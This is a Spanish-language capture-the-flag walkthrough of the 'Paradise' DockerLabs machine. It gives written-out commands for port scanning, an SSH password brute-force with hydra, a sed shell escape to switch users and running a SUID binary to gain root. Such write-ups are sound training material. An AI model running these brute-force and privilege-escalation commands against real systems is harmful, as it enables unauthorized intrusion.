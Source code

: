 ```yaml
---
title: Paradise - DockerLabs
published: true
categories: DockerLabs
---
```



| OS     | Dificultad  | Creator           |
| ------ | ----------- | -------------     | 
| Linux  |  Fácil      | kaikoperez        | 


# Reconocimiento

Comenzamos el proceso de reconocimiento identificando los puertos abiertos en el sistema objetivo. 
```shell
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG ports 
```
-  `-p-`: Escanea todos los puertos (1-65535).
- `--open`: Solo muestra los puertos abiertos.
- `-sS`: Realiza un escaneo SYN, que es rápido y discreto.
- `--min-rate=5000`: Envía al menos 5000 paquetes por segundo, acelerando el escaneo.
- `-n`: No realiza resolución DNS.
- `-Pn`: No realiza ping previo para determinar si el host está activo.
- `-vvv`: Muestra resultados detallados y en tiempo real.

![image](https://github.com/user-attachments/assets/3e8b1d91-4b63-4e39-b87e-d751854957d9)

Durante el escaneo, descubrimos que los siguientes puertos están activos:
- `22` (SSH)
- `80` (HTTP)
- `139` (NetBIOS)
- `445` (SMB)

A continuación, evaluamos si los puertos abiertos presentan alguna vulnerabilidad, además de obtener más información sobre los servicios asociados a esos puertos.

```bash
nmap -p22,80,139,445 -sCV 172.17.0.2 -oG targeted
```
![image](https://github.com/user-attachments/assets/7795b7c4-9a86-4a4c-a117-dc96d1c390db)

# Exploración Web

Iniciamos explorando el puerto `80`. Al acceder, encontramos una página web con dos botones que llevan a diferentes secciones:

![image](https://github.com/user-attachments/assets/620ea296-e2fc-420b-b0ce-7368bbabde81)

En la sección "galery" de la página, al final encontramos texto en formato `base64`:

![image](https://github.com/user-attachments/assets/2c915674-a9c6-4f21-a578-d06b72f0b1f0)

Desciframos el mensaje en base64:
```bash
echo 'ZXN0b2VzdW5zZWNyZXRvCg==' | base64 -d
```
![image](https://github.com/user-attachments/assets/ea3460a6-fa51-4f4c-a431-d3fbffe394e5)

La cadena decodificada, `estoesunsecreto`, podría ser una contraseña o un directorio oculto, así que probamos si existe como directorio:

![image](https://github.com/user-attachments/assets/30da2960-344b-468c-8b7d-bd0ee664c48c)

Encontramos un directorio oculto con un archivo `mensaje_para_lucas.txt`:

![image](https://github.com/user-attachments/assets/04c48046-3617-4554-aafe-f3378d7f3c8a)

El mensaje sugiere que `lucas` debería cambiar su contraseña, ya que podría extraerse mediante fuerza bruta. Con esto, avanzamos a realizar un ataque de fuerza bruta.

## Fuerza Bruta
Usamos `hydra` para intentar obtener la contraseña de `lucas` a través del servicio SSH:
```bash
hydra -l lucas -P /usr/share/wordlists/rockyou.txt -t 64 -VIf ssh://172.17.0.2
```

![image](https://github.com/user-attachments/assets/c34425e5-3b4a-4dd3-befb-08bf7f722484)

Logramos obtener la contraseña de `lucas`, que es `chocolate`.

# Intrusión
Con la contraseña obtenida, accedemos al sistema a través de SSH:
```bash
ssh lucas@172.17.0.2 
```
![image](https://github.com/user-attachments/assets/22a8a2cc-a204-40a5-add2-fb27034cd2f3)

Creamos una shell interactiva:

```bash
script /dev/null -c bash
```

# Escalada de privilegios

## Acceso Andy

Al ejecutar `sudo -l`, descubrimos que podemos ejecutar `sed` como el usuario `andy`.Utilizando [GTFOBins](https://gtfobins.github.io/gtfobins/awk/#shell) sabemos cómo explotar estos binarios.

```bash
sudo -u andy sed -n '1e exec sh 1>&0' /etc/hosts
```
Ahora somos el usuario `andy`. Creamos nuevamente una shell interactiva y exploramos permisos adicionales.

Como no tenemos la contraseña de `andy`, no podemos usar `sudo -l` directamente. Sin embargo, buscamos binarios con permisos especiales:

```bash
find / -perm -4000 2>/dev/null
```

![image](https://github.com/user-attachments/assets/fed510d2-a825-4526-9a1d-a36263f538c9)

Ejecutamos el primer binario:
```bash
/usr/local/bin/privileged_exec
```
Esto nos otorga permisos de root:

![image](https://github.com/user-attachments/assets/10a83925-6af5-4dd1-9d36-e1b84ed27bc6)







